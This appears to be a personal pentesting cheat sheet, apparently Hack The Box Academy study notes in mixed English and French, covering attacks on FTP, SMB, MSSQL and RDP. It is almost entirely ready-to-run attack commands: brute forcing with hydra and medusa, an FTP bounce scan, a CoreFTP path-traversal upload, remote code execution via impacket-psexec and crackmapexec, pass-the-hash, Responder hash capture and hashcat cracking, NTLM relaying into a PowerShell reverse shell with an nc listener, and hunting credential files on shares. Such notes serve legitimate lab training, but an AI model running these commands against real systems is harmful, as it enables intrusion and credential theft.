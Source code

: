 # ATTACKING COMMON SERVICES

## install impacket script on kali

```bash
sudo apt install impacket-scripts
```

## Attacking FTP

- Port : `21`
- [FTP footprinting](../HackTheBox/Academy/Footprinting.md)
- Process

  ```bash
  # Process

  # 1 - Enumeration + footprinting module ftp par
  nmap -sV -sC <IP> -p 21
  # scan
  sudo nmap --script-updatedb
  find / -type f -name ftp* 2>/dev/null | grep scripts
  nmap -sV -sC -A --script
  # ftp-anon verify log of anonymous
  # ftp-syst display infos
  # script-trace



  # 2 - try anonymous login
  # interaction as anonymous
  ftp <Target-IP> # username and password  : anonymous



  # 3 - if anonymous is disabled , try bruteforce
  medusa -u <UserName> -P <wordlist> -h <IP> -M ftp
  # bruteforce alternative with hydra
  hydra -l <username> -P <dico> ftp://<ftpAddress>

  # 4 - FTP bounce attack
  nmap -Pn -v -n -p80 -b <Username>:<Password>@<Exposed-Target> <Main-Target-Non-Exposed>



  # telecharger tous les fichiers disponible
  wget -m --no-passive ftp://<anonymous | Username >:< anonymous | password>@10.129.14.136/
  ```

- latest vulnerabilities \* CoreFTP Exploitation ( Path transversal vulnerability)
  `bash
        curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
        # creer whoops et met POC. à l'interieur
        `
  **Ressource**
  [Tools and method to bruteforce ftp](https://null-byte.wonderhowto.com/how-to/brute-force-ftp-credentials-get-server-access-0208763/)

## Attacking SMB

- [SMB footprinting](../HackTheBox/Academy/Footprinting.md)

- Misconfigurations

  ```bash
  # scan nmap
  sudo nmap <IP> -sV -sC -p139,445

  # 1 -  connect to a share
  smbclient -N -L //<Target-IP> --user=<UserName>%<Password>
  # 2 - Enumerate share with smbmap
  smbmap -H <Target-IP> # -r <ShareName> | --< download | upload > "<Share-File-Path>" -u <userName> -p '<Password>'
  # 3 - Domain enum
  rpcclient -U "%" <IP-Target>
  enumdomusers
  # 3 - Alternative
  ./enum4linux-ng.py <IP-Target> -A -C
  ```

* Protocol Specifics Attacks

  ```bash
   # bruteforce
   crackmapexec smb <Target-IP> -u <Wordlist-user> -p '<password>' --local-auth

   # RCE
   impacket-psexec <User>:'<Password>'@<Target-IP>
   # RCE with crackmapexec
   crackmapexec smb <Target-IP> -u <User> -p '<Password>' -x '<whoami | powershell-cmd>' --exec-method smbexec

  # RCE with smbexec


   #Enumerate logged user
   crackmapexec smb <Target-IP> -u <User> -p '<Password>' --loggedon-users

   # extract hash from sam db
   --sam

   # Pass-the-Hash (PtH) : authenticate with remote server via NTLM Hash
   crackmapexec smb <Target-IP> -u <User-Name> -H <HASH>
  ```

* Forced Authentication Attacks ( create fake smb server)

  ```bash
  # Abuse smb
  Forced Authentication Attacks
  responder -I <interface name>

  #2 - copy hash from : /usr/share/responder/logs/

  #3 - Use hashcat 5600 to crack it
  hashcat -m 5600 <Hash-File> < Wordlist | rockyou >


  # 3 - Crack alternative : impacket-ntlmrelayx ( need to be set to off )
  cat /etc/responder/Responder.conf | grep 'SMB ='
  impacket-ntlmrelayx --no-http-server -smb2support -t <Target-IP>

  # 4 - revershell with https://www.revshells.com/ + Powershell #3
  impacket-ntlmrelayx --no-http-server -smb2support -t <targetIP> -c '<Powershell-CMD>'
  # in parallel on our marchine
  nc -lvnp 9001
  ```

- latest vulnerabilities
  - [SMBGhost (CVE-2020-0796)](https://www.exploit-db.com/exploits/48537)

## Attacking SQL DB

- [SQL Basics](../HackTheBox/Academy/SQL%20basics.md)
- [ MSSQL footprinting](../HackTheBox/Academy/Footprinting.md)

- ```bash
   # scan 1
   nmap -Pn -sV -sC -p1433 <IP>
   # scan 2
   sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>

   # connect to sqlserver alternative to other modules
   sqlcmd -S SRVMSSQL -U <Username> -P '<Password>' -y 30 -Y 30

   # alternative 2
   sqsh -S 10.129.203.7 -U <Username> -P '<Password>' -h
   sqsh -S 10.129.203.7 -U .\\<Username> -P '<Password>' -h

   # alternative mssql
   mssqlclient.py Administrator@<IP> -windows-auth


  ```

- latest vulnerabilities
  - MSSQL function xp_dirtree : we can intercept the hash with Wireshark of TCPDump... and localy crack it to gain admin privilege

## Attacking RDP

- latest vulnerabilities :
  - [CVE-2019-0708](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/)
    - `Bluekeep` is : User-After-Free vulnerability `risk blue screen prevent client during pentest`
    - [Article](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/)

###### SMB

```bash
# connect to share in windows cmd
net use n: \\<IP>\<ShareName> /user:<Username> <Password>
dir \\<IP>\<ShareName>\
# with powershell with credentials
Get-ChildItem \\<IP>\<ShareName>\
$username = '<Username>'
$password = '<Password>'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\<IP>\<ShareName>" -PSProvider "FileSystem"  -Credential $cred

# count number of file powershell
(Get-ChildItem -File -Recurse | Measure-Object).Count
# search file powershell
Get-ChildItem -Recurse -Path <DiskPart | N>:\ -Include *<File-Name-Part>* -File

# with windows cmd
dir <Drive-To-search | n>: /a-d /s /b | find /c ":\ "  # ":\"
# search file windows cmd
dir <Drive-To-search> | n:>\*<File-Name-Part>* /s /b

# search specific word windows cmd
findstr /s /i <Word> <Drive--To-Search | n>:\*.*
# search specific word windows powershell
Get-ChildItem -Recurse -Path <Drive-to-search | N>:\ | Select-String "<Word>" -List


#  mount smb in linux
sudo mkdir /mnt/<ShareName>
sudo apt install cifs-utils
sudo mount -t cifs -o username=<Username>,password=<Password>,domain=. //<IP>/<ShareName> /mnt<ShareName>
# mount with credential file
mount -t cifs //192.168.220.129/<ShareName> /mnt/<ShareName> -o credentials=</path/credentialfile>

#credential file format .(txt)
#username=plaintext
#password=Password123
#domain=.

# search in the share cred files
grep -rn <localSharePath> -ie cred
# search in share a file
find <localSharePath> -name *<FileNamePart>*
```

######

```bash
# install evolution
sudo apt-get install evolution
# if error occur
export WEBKIT_FORCE_SANDBOX=0 && evolution.


```
